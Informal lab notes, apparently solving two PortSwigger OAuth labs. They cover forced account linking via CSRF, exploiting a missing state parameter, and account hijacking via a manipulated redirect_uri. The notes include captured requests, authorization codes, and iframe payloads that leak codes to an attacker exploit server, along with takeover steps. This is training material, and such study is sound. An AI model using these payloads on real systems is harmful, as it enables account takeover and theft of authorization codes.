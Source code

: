     GET /auth?client_id=vlmsozpti7yxvj88ty6k1&redirect_uri=https://0a1d00bb03419cc9c019238000270050.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email HTTP/1.1
response:
    HTTP/1.1 302 Found
    ..
    Redirecting to <a href="https://0a1d00bb03419cc9c019238000270050.web-security-academy.net/oauth-linking?code=C3ZM1zVhBaCRlmu6MeexiZd1pBK7mXnM0KXzFJRSVHL">

and then
    GET /oauth-linking?code=C3ZM1zVhBaCRlmu6MeexiZd1pBK7mXnM0KXzFJRSVHL HTTP/1.1

note it doesnt have a state parameter = vulnarbale!

turn interception on and begin attaching process again
forward until you get a new code. copy url and drop the req.

close interception and go to exploit server
use iframe to build a CSRF attack against the admin:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>


final payload:
    <iframe src="https://0a1d00bb03419cc9c019238000270050.web-security-academy.net/oauth-linking?code=NVzgflLZKPaQcxPX4lYVAaxtXoo2JHkpG980pwSykzF"></iframe>

send to admin (dont load exploit to avoid wasting the linkage code)

log out (note no social media account is linked) and wait for admin to press exploit
log in using you social media and observe you are in admin account
delet carlos

# Carlosed


# 3. Lab: OAuth account hijacking via redirect_uri
https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos. 

GET /auth?client_id=[...]


GET /auth?client_id=e93r2r12dcywur7blqun3&redirect_uri=https://exploit-0a2700640470274ec0a30d64011d0032.web-security-academy.net/exploit&response_type=code&scope=openid%20profile%20email HTTP/1.1

GET  HTTP/1.1

<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>


<iframe src="https://oauth-0a92004d04ee271cc0810d9c025e0097.web-security-academy.net/auth?client_id=e93r2r12dcywur7blqun3&redirect_uri=https://exploit-0a2700640470274ec0a30d64011d0032.web-security-academy.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>
